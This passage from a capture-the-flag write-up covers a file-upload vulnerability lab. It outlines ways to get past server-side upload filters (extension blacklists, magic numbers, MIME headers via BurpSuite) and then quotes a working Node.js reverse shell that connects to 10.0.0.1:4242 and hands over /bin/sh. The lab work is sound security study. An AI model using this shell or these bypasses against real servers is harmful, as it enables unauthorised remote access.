	* After making progress on the above task, we can determine if the server renames uploads in accordance with a pre-determined scheme.
		* Importantly, the text notes that the `-x` flag in `gobuster` is helpful in the event that successfully uploaded files are difficult to locate.
			* For example, including `-x php,txt,html` in a `gobuster` command will append each of these extensions to the selected wordlist. 
			* This is especially useful in scenarios where the server is renaming uploaded files.
4) Begin attempting malicious file uploads
	* While we expect that server-side filters will stop us from directly delivering our payload, the information that can be derived from resulting error messages will further inform our approach.
	* Here are four suggested considerations for beginning to circumvent server-side filters:
		1) If files with clearly invalid extensions (e.g., `.invalidfileextension`) can be successfully uploaded, it is likely that the server is using a blacklist, instead of a whitelist. 
		2) Changing the "magic numbers" of your "control" file (mentioned in step 3) to those of a likely or demonstrably filtered file extension can reveal if the server is using a filtering system that targets them.
		3) Similar to the above, intercepting upload submissions via `BurpSuite` and modifying the MIME identification headers can reveal if the server is filtering in this manner.
		4) If there are restrictions on uploaded files' size/length, using progressively larger file sizes can allow for deducing the server's limit.

## Task 11 - Challenge

### Initial investigation
After downloading the provided wordlist, we navigate to `http://jewel.uploadvulns.thm/`. Immediately, `Wappalyzer` shows us several relevant technologies found on the page:

![jewel-wap](/images/uv/jewel-wap.png)

From this, we learn that this site is running [Express](https://expressjs.com/), a `Node.js` web application framework. This means that our `ptm-shell.php` reverse shell script will almost certainly not work, as the server is configured to run `JavaScript` code.

Luckily for us, the PayloadsAllTheThings [Reverse Shell Cheat Sheet repository](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#nodejs) on GitHub includes a reverse shell script for use with `Node.js`. Here it is:

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4242, "10.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```
